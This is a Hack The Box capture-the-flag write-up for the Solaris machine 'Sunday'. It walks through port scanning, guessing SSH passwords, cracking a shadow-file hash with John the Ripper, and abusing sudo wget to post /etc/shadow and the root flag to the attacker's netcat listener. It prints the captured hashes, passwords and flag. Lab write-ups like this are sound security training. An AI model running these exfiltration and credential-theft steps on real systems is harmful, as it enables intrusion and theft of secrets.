







# Hack The Box: Sunday machine write-up

This was my first attempt on a Solaris machine and, even if the machine was not so difficult, I learnt a few interesting things about the OS. Ip will be 10.10.10.76, although I later edited my ``/etc/hosts`` file so that I could use just ``sunday`` (I was all the time using SSH so this was easier for me).

### Enumeration

We start by enumerating open ports to discover the services running in the machine. I ran the following:

```sh
$ nmap -sV -sC -oA nmap/initial 10.10.10.76
```

* ``-sV`` to determine service info or version
* ``-sC`` to run default scripts
* ``-oA`` to output in all formats (XML, nmap, gnmap)

*Result of first nmap scan*

```sh
# Nmap 7.01 scan initiated Wed Sep 19 00:40:43 2018 as: nmap -sV -sC -oA nmap/initial 10.10.10.76
Nmap scan report for 10.10.10.76
Host is up (0.058s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE VERSION
79/tcp  open  finger  Sun Solaris fingerd
| finger: Login       Name               TTY         Idle    When    Where
| sammy    sammy                 pts/3            Tue 21:43  10.10.13.78         
| sammy    sammy                 pts/4         43 Tue 21:46  10.10.14.112        
| sammy    sammy                 pts/6            Tue 21:49  10.10.15.98         
| sunny    sunny                 pts/7         12 Tue 21:50  10.10.13.192        
| sunny    sunny                 pts/8         11 Tue 21:51  10.10.15.98         
| sunny    sunny                 pts/10        27 Tue 21:58  10.10.13.44         
| sunny    sunny                 pts/11           Tue 22:15  10.10.15.193        
| sunny    sunny                 pts/12           Tue 22:10  10.10.13.246        
|_sunny    sunny                 pts/13           Tue 22:34  10.10.14.151        
111/tcp open  rpcbind 2-4 (RPC #100000)
Service Info: OS: Solaris; CPE: cpe:/o:sun:sunos

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep 19 00:42:18 2018 -- 1 IP address (1 host up) scanned in 95.55 seconds
```

So basically we see that there is a finger service running on the machine, which is basically used to get information about users on a remote system: we got two usernames (``sunny`` and ``sammy``). The rpcbind listening on port 111 is not important at all, as it's functionality is close to that of a DNS server. Seeing there was no entry point, I decided to run more thorough scans:

Second nmap command: ``nmap -v -sV -sS -p0-65535 -T4 -oA nmap/second sunday``

* ``-v`` for verbose mode
* ``-sS`` to do a TCP SYN scan
* ``-p0-65535`` to go through all TCP ports
* ``-T4`` for the scan to be faster

*Second nmap scan*

```sh
# Nmap 7.01 scan initiated Wed Sep 19 23:26:26 2018 as: nmap -v -sV -sS -p0-65535 -T4 -oA nmap/second sunday
Warning: 10.10.10.76 giving up on port because retransmission cap hit (6).
Nmap scan report for sunday (10.10.10.76)
Host is up (0.058s latency).
Not shown: 49174 closed ports, 16357 filtered ports
PORT      STATE SERVICE    VERSION
79/tcp    open  finger     Sun Solaris fingerd
22022/tcp open  ssh        SunSSH 1.3 (protocol 2.0)
34904/tcp open  tcpwrapped
37597/tcp open  tcpwrapped
51954/tcp open  tcpwrapped
Service Info: OS: Solaris; CPE: cpe:/o:sun:sunos

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep 20 00:36:32 2018 -- 1 IP address (1 host up) scanned in 4205.88 seconds
```

We finally got something! SSH listening on port 22022.

### Getting user access

This part had to do with guessing, for we had two usernames and no passwords. I tried many combinations and eventually found one that worked: ``sunny:sunday``

*Logging in through SSH on port 22022*



One odd thing I noticed was that my home directory wasn't in the ``/home`` directory but in ``/export/home``. However, after a quick google search I discovered it's a convention in Solaris to use that location for the directory stored in the local hard drive. All other home directories will be in ``/home``.

*User.txt owned by Sammy*



We don't have reading permissions for ``user.txt`` so it looks like we'll have to pivot and get to be ``sammy``.

#### Enumeration II

I did a manual search and discovered a strange directory in the system root:

*Backup directory found in ``/`` directory*



The contents of ``backup.shadow`` were:

```console
sunny@sunday:/backup$ cat shadow.backup
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

I didn't have permissions to read ``agent22.backup`` so I decided to work on this file.

Besides, when running ``sudo -l`` I got an something I could run, but it looked like a troll so I didn't pay much attention:

*Troll*



#### Pivoting to Sammy

We can use John The Ripper to crack the hash and then be sammy. For that I needed two files: ``/etc/passwd`` and ``/backup/shadow.backup`` (which is an incomplete backup of ``/etc/shadow`` as it doesn't have the sudo hash). With that in mind, I first need to join both files together so that john can parse them. I ran the following in my local machine:

```sh
unshadow passwd shadow.backup > john_pwd.txt
```

Where the contents of ``john_pwd.txt`` are:

```
root:x:0:0:Super-User:/root:/usr/bin/bash
daemon:x:1:1::/:
bin:x:2:2::/usr/bin:
sys:x:3:3::/:
adm:x:4:4:Admin:/var/adm:
lp:x:71:8:Line Printer Admin:/usr/spool/lp:
uucp:x:5:5:uucp Admin:/usr/lib/uucp:
nuucp:x:9:9:uucp Admin:/var/spool/uucppublic:/usr/lib/uucp/uucico
dladm:x:15:3:Datalink Admin:/:
smmsp:x:25:25:SendMail Message Submission Program:/:
listen:x:37:4:Network Admin:/usr/net/nls:
gdm:x:50:50:GDM Reserved UID:/:
zfssnap:x:51:12:ZFS Automatic Snapshots Reserved UID:/:/usr/bin/pfsh
xvm:x:60:60:xVM User:/:
mysql:NP:70:70:MySQL Reserved UID:/:
openldap:*LK*:75:75:OpenLDAP User:/:
webservd:*LK*:80:80:WebServer Reserved UID:/:
postgres:NP:90:90:PostgreSQL Reserved UID:/:/usr/bin/pfksh
svctag:*LK*:95:12:Service Tag UID:/:
nobody:*LK*:60001:60001:NFS Anonymous Access User:/:
noaccess:*LK*:60002:60002:No Access User:/:
nobody4:*LK*:65534:65534:SunOS 4.x NFS Anonymous Access User:/:
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:101:10:sammy:/export/home/sammy:/bin/bash
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:65535:1:sunny:/export/home/sunny:/bin/bash
```

Now that john can parse them it's time to get cracking!

*Getting Sammy's password*



So we can log in trhough SSH with ``sammy:cooldude!`` and read user:

*Getting user hash*



### Privilege escalation

Being Sammy, I decided to run ``sudo -l`` and found something interesting: we can run wget as root!

*Output of ``sudo -l``*


The plan is the following: I'll run wget as root to post some data (a file) to my own machine and then listen with netcat. The command is:

```sh
sudo wget --post-file=/etc/shadow 10.10.15.6:8002
```

*Output of command (in box)*



*Output of command (in my local machine)*

```console
parallels@ubuntu:~/Desktop/Sunday$ nc -lnvp 8002
Listening on [0.0.0.0] (family 0, port 8002)
Connection from [10.10.10.76] port 8002 [tcp/*] accepted (family 2, sport 43242)
POST / HTTP/1.0
User-Agent: Wget/1.10.2
Accept: */*
Host: 10.10.15.6:8002
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 634

root:$5$WVmHMduo$nI.KTRbAaUv1ZgzaGiHhpA2RNdoo3aMDgPBL25FZcoD:14146::::::
daemon:NP:6445::::::
bin:NP:6445::::::
sys:NP:6445::::::
adm:NP:6445::::::
lp:NP:6445::::::
uucp:NP:6445::::::
nuucp:NP:6445::::::
dladm:*LK*:::::::
smmsp:NP:6445::::::
listen:*LK*:::::::
gdm:*LK*:::::::
zfssnap:NP:::::::
xvm:*LK*:6445::::::
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

We can see the differences with the backup, being the main one that we have the root hash. Now, we could repeat the same process and try to crack the hash to get to root (with shell access) or we could simply send us the contents of ``/root/root.txt``:

```console
parallels@ubuntu:~/Desktop/Sunday$ nc -lnvp 8002
Listening on [0.0.0.0] (family 0, port 8002)
Connection from [10.10.10.76] port 8002 [tcp/*] accepted (family 2, sport 40042)
POST / HTTP/1.0
User-Agent: Wget/1.10.2
Accept: */*
Host: 10.10.15.6:8002
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

fb40fab61d99d37536daeec0d97af9b8
```

And that's how we got the hash!

I also checked the contents of ``/root/troll`` and ``/backup/agent22.backup`` (out of curiosity) and it turned out they were the same:

```sh
#!/usr/bin/bash

/usr/bin/echo "testing"
/usr/bin/id
```

*Diego Bernal Adelantado*
